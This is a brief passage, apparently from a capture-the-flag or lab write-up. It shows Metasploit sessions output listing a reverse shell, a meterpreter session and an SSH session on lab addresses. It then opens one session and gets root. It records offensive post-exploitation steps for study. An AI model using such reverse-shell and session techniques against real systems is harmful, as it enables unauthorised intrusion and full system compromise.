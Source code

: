 - checkout new sessions `sessions`

```console
Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  4         shell cmd/unix                                   10.8.27.147:4444 -> 10.10.114.115:51078 (10.10.1
                                                             14.115)
  5         meterpreter x86/linux  www-data @ 172.28.101.50  10.8.27.147:4433 -> 10.10.114.115:52494 (172.28.
                                                             101.50)
  7         shell linux            SSH kali @                10.8.27.147-10.10.114.115:34144 -> 172.17.0.1:22
                                                              (172.17.0.1)
```

> we now have an open session ID = 7

- open session `sessions -i 7`
- `id` :

```console
uid=0(root) gid=0(root) groups=0(root)
```

> WE GOT ROOT

---
